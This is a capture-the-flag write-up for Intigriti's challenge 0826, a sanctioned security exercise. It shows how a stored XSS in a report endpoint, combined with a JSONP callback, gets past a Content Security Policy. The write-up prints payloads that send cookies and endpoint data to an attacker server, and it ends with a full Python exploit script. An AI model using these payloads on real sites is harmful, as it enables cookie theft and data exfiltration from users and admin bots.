

# Intigriti's August Challenge 0826 by [Intigriti](https://x.com/INTIGRITI)

## Description 

The solution:

* Should leverage a vulnerability on the challenge page.
* Shouldn't be self or related to MiTM attacks.
* Should include:
    * The flag in the format INTIGRITI{.*}
    * The payload(s) used
    * Steps to solve (short description / bullet points)
* Should be reported on the Intigriti platform.

Get started:

1. Test your payloads on the [challenge page](https://challenge-0826.challenges.intigriti.io/challenge) & let's capture that flag!

## TL;DR

1. The target is a web application displaying a TV with poor signal. It features 10 channel buttons, but none of them appear to work.

2. The objective is to find the correct hidden channel to display the flag, as indicated on the page.

3. A JSONP endpoint at `/api/jsonp?callback=<user_input>` is discovered and leveraged for an XSS attack to bypass the Content Security Policy (CSP).

4. The `POST /api/report` endpoint is vulnerable to XSS injection, allowing an attacker to execute arbitrary scripts in the context of the admin bot browser to fetch endpoints and exfiltrate data.

5. Enumerating channel endpoints reveals Channel 11, which returns a hidden video filename: `3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4`.

6. The flag is obtained by fetching the video directly from `/static/streams/3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4` or by loading it into the TV component.

## Analysis

The target is a web application displaying a TV with poor signal.
The application features 10 buttons to change channels, but none of them seem to work.
The goal is to find a way to make the TV work and display the flag.

And that is essentially it (at least for now).


Inspecting the client-side code reveals the API endpoints used to fetch channels and report non-working channels:

* `GET /api/channels/:id/load` - Returns the video stream filename for the given channel ID.
    * the filename is validated against the following regex:
    
        ```javascript
        const VALID = /^[A-Za-z0-9._-]+\.mp4$/;
        ```
    
    * if passed, the filename is set as the `src` attribute of the video element and loaded.

    * From the client-side code, we can see that static video files are served from `/static/streams/:filename`.

* `POST /api/report` - Reports a channel as non-functional by sending the channel ID in the request body.

## Exploit

The first step was running a directory scan to uncover hidden API endpoints or files.
This successfully revealed a JSONP endpoint at `/api/jsonp?callback=<user_input>`.
By default, the endpoint returns the following JSONP response structure:

```javascript
/**/ ({"channels": 10});
```

The callback parameter lacks sanitization. Appending `//` comments out the trailing response code, enabling arbitrary JavaScript execution:

```javascript
/**/ i_will_likely_do_bad_stuff()//({"channels": 10});
```

Revisiting the client-side code reveals a potential client-side path traversal point in the `GET /api/channels/:id/load` handling:

```javascript
const res = await fetch(`/api/channels/${n}/load`, {
    credentials: 'same-origin',
    /*headers: {
        'X-Channel-Id': n
    }*/
});
const url = (await res.text()).trim();
await wait(reduce ? 0 : 300);
if (VALID.test(url)) setTube(url);
```

* Because the channel ID parameter `n` is not sanitized, passing a path traversal string like `../jsonp?callback=<payload>&` might reflect JavaScript into the video player logic.

* *(Note: The commented-out X-Channel-Id header was also interesting, but probing it yielded nothing useful.)*
    
However:

1. Client-side regex validation blocks non-matching return values.
    
2. The `<video>` element itself is not a direct vector for XSS in this context, so this approach was discarded.

At this point, attention shifted to the `POST /api/report` endpoint.

The request body is sent as URL-encoded form data:

```http
POST /api/report HTTP/2
Host: challenge-0826.challenges.intigriti.io
Content-Type: application/x-www-form-urlencoded
...

channel_id=1
```

The server responds with a standard JSON status object:

```http
HTTP/2 200
Content-Type: application/json
...

{"id":"21f68343fcdced0d","status":"queued"}
```

The only input validation present is requiring the `channelId` parameter to start with a digit:

```http
HTTP/2 400
Content-Type: application/json
...

{"error":"channel ID must start with a digit"}
```

This suggests `channelId` is not sanitized, possibly opening the door for XSS injection.

Testing standard elements with inline JavaScript failed.
The application certainly enforces a strict Content Security Policy (CSP), blocking inline script execution.

However, inserting an `<iframe>` pointed to an external server confirmed XSS injection by successfully reaching it:

```html
channelId=1<iframe src="<attacker_server>"></iframe>
```

By contrast, using a standard `<script>` tag pointing to an external domain failed, confirming the CSP restricts external script origins.

This is where the `/api/jsonp` endpoint becomes crucial. 
Because it resides on the same origin, it can be passed to a `<script src="...">` tag to bypass the CSP and execute arbitrary JavaScript.

```html
channelId=1<script src='/api/jsonp?callback=fetch(%22<attacker_server>%22)//'></script>
```

This payload successfully executes within the victim browser context and triggers a `fetch` request back to the external server, confirming same-origin XSS via JSONP execution.

Now, the remaining steps are locating the flag and exfiltrating it.


Checking for flag data in the bot's cookies yielded no sensitive session information:

```html
channelId=1<script src="/api/jsonp?callback=fetch('<attacker_server>?cookie='%2bdocument.cookie)//"></script>
```

Since no other obvious endpoints exist, the next logical step was enumerating channels to locate hidden ones accessible to the bot. 
Since all public channels fail, a hidden working channel likely contains the flag
(*and also because one of the challenge hints explicitly states that—though that isn’t overly relevant to be honest* 🤥🤥🤥).

Off Topic - This is how I personally imagine the Intigriti team when 100 likes come and they start dropping hints:


Moving forward, a payload was written to instruct the bot to fetch `/api/channels/:id/load` endpoints and append the response data to an exfiltration URL targeting the external server:

```html
channelId=1<script src="/api/jsonp?callback=fetch('/api/channels/11/load').then(r=>r.text()).then(t=>fetch('<attacker_server>?data='%2bencodeURIComponent(t)))//"></script>
```

* Note: When constructing payloads like this, characters with specific structural meanings in URL-encoded form contexts (such as `&`, `=`, `+`, `?`) must be properly URL-encoded.
For instance, `+` represents JavaScript string concatenation here and must be encoded as `%2b` so it isn't parsed as a URL space.

Always verify payloads directly in a local browser context to ensure the outgoing exfiltration request is structured correctly before sending it to the admin bot: many theoretically valid payloads may silently fail just for simple encoding issues.

Querying Channel 11 returned a hidden video filename: 

    3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4

Because stream assets are served from `/static/streams`, the MP4 file can be fetched directly via `curl`:

```bash
curl 'https://challenge-0826.challenges.intigriti.io//static/streams/3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4' --output 'flag.mp4'
```

Alternatively, loading the video URL directly into the tube component renders the flag on the simulated TV screen:

```javascript
tube.src = '/static/streams/3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4';
```




## Appendix

Below is a complete Python proof-of-concept (PoC) script that automates channel enumeration, exfiltrates the hidden stream filename, and downloads the resulting video payload:

```python
import requests, time, re, sys

base_url = "https://challenge-0826.challenges.intigriti.io"
report_url = f"{base_url}/api/report"
video_url = f"{base_url}/static/streams"

def build_video_url(video_id: str):
    if not video_id.endswith(".mp4"):
        video_id += ".mp4"
    return f"{video_url}/{video_id}"

def build_channel_load_url(channel_id: str):
    return f"/api/channels/{channel_id}/load"

def build_xss_payload(target_url: str, exfil_url: str):
    return f"1<script src=\"/api/jsonp?callback=fetch('{target_url}').then(r=>r.text()).then(t=>fetch('{exfil_url}?video='%2bencodeURIComponent(t)))//\"></script>"

def solve(exfil_url: str):
    for i in range(11, 12):
        channel_id = str(i)
        target_url = build_channel_load_url(channel_id)
        payload = build_xss_payload(target_url, exfil_url)

        # Send the payload to the report endpoint
        res = requests.post(report_url, data={"channelId": payload})
        if res.status_code != 200:
            print(f"Payload failed for {channel_id}")
            continue
        
        # Inspect exfiltration listener response
        res = requests.get(f"{exfil_url}?inspect")
        match = re.search(r"video=(.*\.mp4)", res.text)
        if not match:
            print(f"video not found for channel {channel_id}")
            continue
        video = match.group(1)
        print(f"video found for channel {channel_id}: {video}")

        video_url = build_video_url(video)
        res = requests.get(video_url)
        with open(f"./video_channel_{channel_id}.mp4", "wb") as f:
            f.write(res.content)
        
        time.sleep(3) # keep challenge rate limit

def main():
    if len(sys.argv) != 2:
        print("Usage: python solve.py <exfil_url>")
        sys.exit(1)
    exfil_url = sys.argv[1]
    solve(exfil_url)

if __name__ == "__main__":
    main()
```